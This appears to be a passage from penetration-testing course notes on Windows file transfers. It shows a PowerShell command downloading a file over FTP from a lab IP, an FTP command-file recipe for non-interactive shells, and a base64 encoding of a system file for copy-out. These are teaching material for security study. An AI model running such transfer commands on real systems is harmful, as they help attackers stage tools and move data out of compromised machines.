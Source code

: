 {% code overflow="wrap" %}
```
(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

### **Command File for FTP Client To Download File**

{% code overflow="wrap" %}
```
echo open 192.168.49.128 > ftpcommand.txt
echo USER anonymous >> ftpcommand.txt
echo binary >> ftpcommand.txt
echo GET file.txt >> ftpcommand.txt
echo bye >> ftpcommand.txt
ftp -v -n -s:ftpcommand.txt
```
{% endcode %}

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption><p>You may not have an interactive shell. If that's the case, we can create an FTP command file to download a file</p></figcaption></figure>

## Upload Operations

## Terminal String Copy & Paste

### Windows Encode & Write Base64

{% code overflow="wrap" %}
```
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
```
{% endcode %}
